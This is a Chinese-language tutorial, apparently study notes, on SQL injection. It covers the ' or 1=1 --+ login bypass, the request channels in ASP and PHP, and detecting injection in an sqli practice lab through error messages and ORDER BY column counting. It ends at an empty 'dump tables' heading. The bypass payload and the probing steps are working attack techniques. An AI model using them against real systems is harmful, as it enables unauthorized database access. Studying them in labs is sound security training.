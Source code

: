 # SQL注入

## <font color = #1E90FF>万能密码登录案例</font>

- **登录SQL的语句**
```mysql
select*from admin where username = '用户输入的用户名' and passworld = '用户输入的密码'	
```
- **万能密码**

    ```
    ' or 1=1 --+	#永远为真

    --+             #注释掉后面的内容不再执行
    ```

## <font color = #1E90FF>注入提交方式</font>

- **get**
```
一般通过浏览器提交
```
- **post**
```
一般用于文件上传等
```
- **ASP:**
```asp
	request	                #全部接受
	request.querystring	    #接受get
	request.form	            #接受post
	request.cookie	        #接受cookie
```
- **PHP:**
```php
	$_REQUEST	    #全部接受
	$_GET$_POST	    #接受get
	$_COOKIE	    #接受cookie
```

## <font color = #1E90FF>整型注入</font>
- **判断是否有注入** <font color = #FF0000>（判断是否未严格校验）---->第一要素</font><BR>
	- 1）可控参数的改变是否能影响页面显示结果
	- 2）输入的SQL语句是否能报错----能通过数据库的报错，看到数据库的一些语句痕迹
	        select username，password from user where id =?'
	- 3）输入的SQL语句是否不报错----我们的语句能够成功闭合
- **2.什么类型的注入**
- **3.语句是否能够被恶意修改**<font color = #FF0000>----->第二要素</font><BR>
- **4.是否能够成功执行**<font color = #FF0000>----->第三要素</font><BR>
- **5.获取我们想要的数据**

### <font color = #FF0000>1.打开sqli靶场，在url后添加`'`号，报错</font><BR>
</figure>
     <figure class="thumbnails">
        <img src="picture/SQLzhuru/1.png">
</figure>

- 错误信息如下:
```
     check the manual that corresponds to your MySQL server version for the right syntax to use near '  '" LIMIT 0,1    ' at line 1
```
```mysql
     select username，password from user where id ='?''
```

- 可以看出多了个单引号，说明可能是 `id='?'`

### <font color = #FF0000>2.下面猜字段数</font><BR>
```
order by 数字       #猜字段数
如：
    order by  2
```
### <font color = #FF0000>3.爆表</font><BR>


